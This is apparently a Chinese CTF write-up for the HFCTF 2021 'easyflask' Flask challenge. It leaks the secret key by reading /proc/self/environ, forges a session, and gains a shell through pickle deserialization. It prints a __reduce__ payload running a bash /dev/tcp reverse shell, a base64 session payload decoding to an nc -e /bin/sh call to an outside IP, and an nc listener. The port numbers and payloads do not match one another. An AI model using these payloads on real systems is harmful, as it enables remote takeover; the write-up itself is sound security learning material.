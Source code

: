 ```yaml
---
title: '[HFCTF 2021 Final]easyflask'
date: 2024-09-27 20:04:05
tags: 
      - shell反弹
      - session伪造
categories: 刷题笔记
---
```


## [HFCTF 2021 Final]easyflask

题目给了提示，有文件读取漏洞，读取源码

```
#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):#如果u对应的值是字典，会读取  u.b
            u = b64decode(u.get('b'))
        u = pickle.loads(u)#pickle反序列化
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
app.run('0.0.0.0', port=80, debug=False)

```

我们发现admin目录下面有反序列化函数，但我们不能直接访问

<!--more-->

![image-20240927200754054](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409272007131.png)

这种情况一般是要我们伪造session

我们找到sessin，看着应该是flask框架的![image-20240927200845134](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409272008198.png)

我们需要找到密钥

我们读取**/proc/self/environ**

![image-20240927201123735](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409272011846.png)

```
glzjin22948575858jfjfjufirijidjitg3uiiuuh
```

通过源码可知

```
        u = session.get('u')
        if isinstance(u, dict):#如果u对应的值是字典，会读取  u.b
            u = b64decode(u.get('b'))
        u = pickle.loads(u)#pickle反序列化

```

我们可以知道，需要构造的秘钥结构：{“u”:{“b”:“反序列化的内容”}}

```
import pickle
from base64 import b64encode
import os

User = type('User', (object,), {
    'uname': 'tyskill',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (os.system, ("bash -c 'bash -i >& /dev/tcp/你的ip/你的端口 0>&1'",))
})
u = pickle.dumps(User())
print(b64encode(u).decode())
```


我们伪造session

```
{"u":{"b":"gANjYnVpbHRpbnMKZXZhbApxAFg6AAAAX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDYwLjIwNC4xNTguODcgMTIzNCAtZS9iaW4vc2gnKXEBhXECUnEDLg=="}}
```

![image-20240927203156340](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409272031372.png)

注：记得加\转义"

得到session，我们在服务器上监听9999端口

```
nc -lvvp 55555
```

然后访问/admin，修改session

端口监听成功，执行命令，得到flag

![image-20241010204621031](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410102046152.png)
